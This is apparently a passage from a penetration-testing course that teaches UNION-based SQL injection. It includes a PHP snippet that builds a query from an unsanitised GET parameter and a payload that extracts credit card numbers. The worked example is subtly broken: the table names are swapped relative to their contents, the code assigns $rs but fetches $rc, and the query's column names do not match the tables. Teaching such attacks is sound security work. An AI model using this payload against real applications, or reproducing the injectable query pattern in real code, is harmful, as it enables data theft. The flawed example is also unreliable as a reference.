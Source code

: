 # 5.3 In-Band SQLi

## Exploiting In-Band SQL Injection

In-band SQL injection, often known as UNION-based SQL injection, empowers the extraction of data from the database through the utilization of the UNION SQL command. This type of attack allows a penetration tester to retrieve database content, including the database name, table schemas, and actual data.

As illustrated in the initial chapter of this module, the UNION statement merges the result sets of two or more SELECT statements. For instance:

```sql
SELECT <field list> FROM <table> UNION SELECT <field list> FROM <another table>;
```

### First Scenario

Consider a scenario where the database contains two tables: `CreditCards` and `Users`. For example:

```plaintext
CreditCards
|id(int)|username(string)|password(string)|real_name(string)|
|-------|----------------|----------------|-----------------|
| 1     | admin          | strongpass123  | Armando Romeo   |
| 2     | fred           | wowstrongpass123| Fred Flintstone|

Users
|user_id(int)|Cc_num(int)          |CVS(int)|
|------------|---------------------|--------|
| 1          | 0000 1111 2222 3333 | 123    |
| 2          | 0123 4567 8901 2345 | 321    |
```

The web application employs the following code to display usernames:

```php
<?php
$rs = mysql_query("SELECT real_name FROM users WHERE id=" . $_GET['id'] . ";");
$row = mysql_fetch_assoc($rc);

echo $row['real_name'];
?>
```

Here, there is a clear SQL injection point in the `id` field of the SQL query.

To exploit the SQL injection vulnerability and retrieve the credit card associated with a username, the payload is:

```sql
9999 UNION ALL SELECT cc_num FROM CreditCards WHERE user_id=1
```

This payload transforms the web application query into:

```sql
SELECT real_name FROM users WHERE id=9999 UNION ALL SELECT cc_num FROM CreditCards WHERE user_id=1;
```

Since there are no users with `id=9999`, the web application displays the `cc_num` of the first user.

### In-band Attack Challenges

Several considerations arise in this in-band attack:

* The field types of the second SELECT statement should match those in the first statement.
* The number of fields in the second SELECT statement should match the number of fields in the first statement.
* To succeed in the attack, knowledge of the database structure in terms of tables and column names is essential.
